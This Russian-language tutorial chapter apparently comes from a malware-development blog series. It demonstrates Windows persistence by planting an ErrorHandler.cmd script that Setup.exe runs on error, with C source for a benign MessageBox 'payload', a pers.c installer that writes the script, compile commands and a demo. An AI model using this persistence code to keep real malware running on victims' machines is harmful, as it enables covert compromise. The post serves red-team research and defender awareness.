\newpage
\subsection{88. разработка вредоносного ПО: закрепление (persistence) - часть 22. Windows Setup. Простой пример на C++.}

﷽

{width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через сценарий Windows Setup.     

### сценарий установки

`C:\WINDOWS\system32\oobe\Setup.exe` — это исполняемый файл операционной системы Windows. Директория `oobe` означает *"Out Of Box Experience"* — процесс настройки Windows при первом запуске, включающий создание учетной записи пользователя, настройку параметров, выбор настроек по умолчанию и т. д.     

{width="80%"}    

Оказывается, если разместить полезную нагрузку в `c:\WINDOWS\Setup\Scripts\ErrorHandler.cmd`, `c:\WINDOWS\system32\oobe\Setup.exe` будет загружать её при возникновении ошибки.     

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это `meow-meow` messagebox "вредоносное" приложение (`hack.c`):  

```cpp
/*
hack.c
вредоносное приложение для закрепления в Windows
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем файл `ErrorHandler.cmd` для закрепления:      

```powershell
@echo off
"C:\Users\user\Desktop\research\2023-07-16-malware-pers-22\hack.exe"
```

Как можно видеть, логика довольно простая.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, компилируем наше "вредоносное" ПО:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Затем перемещаем наш `ErrorHandler.cmd` в `C:\Windows\Setup\Scripts\`:     

{width="80%"}    

Ок, следующий шаг - нужно запустить `Setup.exe` с ошибкой. Самый простой способ - выполнить `Setup.exe` без аргументов:     

```powershell
.\Setup.exe
```

{width="80%"}    

Если открыть `Process Hacker` и посмотреть свойства `hack.exe`:     

{width="80%"}    

Можно заметить, что его родительский процесс - `cmd.exe (7264)`,       

{width="80%"}    

А его родительский процесс, в свою очередь, - `Setup.exe (4876)`:     

{width="80%"}    

Как можно видеть, логика закрепления работает идеально! =^..^=         

### практический пример 2. скрипт закрепления

Для полноты эксперимента я создал файл `pers.c`:     

```cpp
/*
pers.c
windows persistence via Windows Setup
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  // create the directory if not exist
  if (!CreateDirectory("C:\\WINDOWS\\Setup\\Scripts", NULL)) {
    DWORD error = GetLastError();
    if (error != ERROR_ALREADY_EXISTS) {
      printf("failed to create directory. error: %lu\n", error);
      return -1;
    }
  }

  // open the file for writing
  HANDLE hFile = CreateFile("C:\\WINDOWS\\Setup\\Scripts\\ErrorHandler.cmd", 
  GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("failed to create ErrorHandler file. error: %lu\n", GetLastError());
    return -1;
  }

  // content to write to the file
  const char* data = "@echo 
  off\n\"C:\\Users\\user\\Desktop\\research\\2023-07-16-malware-pers-22\\
  hack.exe\"";

  // write the content to the file
  DWORD bytesWritten;
  if (!WriteFile(hFile, data, strlen(data), &bytesWritten, NULL)) {
    printf("failed to write to ErrorHandler file. error: %lu\n", 
    GetLastError());
  }

  // close the file handle
  CloseHandle(hFile);
  return 0;
}
```

Обратите внимание, что эту программу необходимо запускать с правами администратора, поскольку она пытается создать каталог и файл в `C:\WINDOWS`, что требует прав администратора.

{width="80%"}    

### демонстрация 2

Давайте посмотрим, как все работает на практике. Компилируем наш скрипт закрепления:      

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Затем просто запускаем его с административными привилегиями на машине жертвы:     

```powershell
.\pers.exe
```

{width="80%"}    

В моем случае, перед запуском я удалил эту папку:    

{width="80%"}    

Запускаем `Setup.exe` снова:    

{width="80%"}    

{width="80%"}    

Идеально! =^..^=    

### заключение

Это обычное имя файла установочного пакета. В данном случае оно является частью процесса установки и инициализации Windows. Файл используется во время установки операционной системы, а также при добавлении или изменении компонентов.     

Как видно, однако, следует отметить, что, хотя это легитимная часть операционной системы Windows, вредоносные программы иногда могут называть себя `Setup.exe`, чтобы избежать обнаружения.      

В папке `c:\WINDOWS\system32\oobe\` также находятся другие файлы:      

{width="80%"}    

Я их не проверял.     

Этот трюк ранее исследовался [hexacorn](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/):

{width="80%"}    

Я просто показываю "грязный" PoC-код на C: `pers.c`.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.   

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/)      
[https://twitter.com/Hexacorn/status/1482484486994640896](https://twitter.com/Hexacorn/status/1482484486994640896)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-07-16-malware-pers-22)     
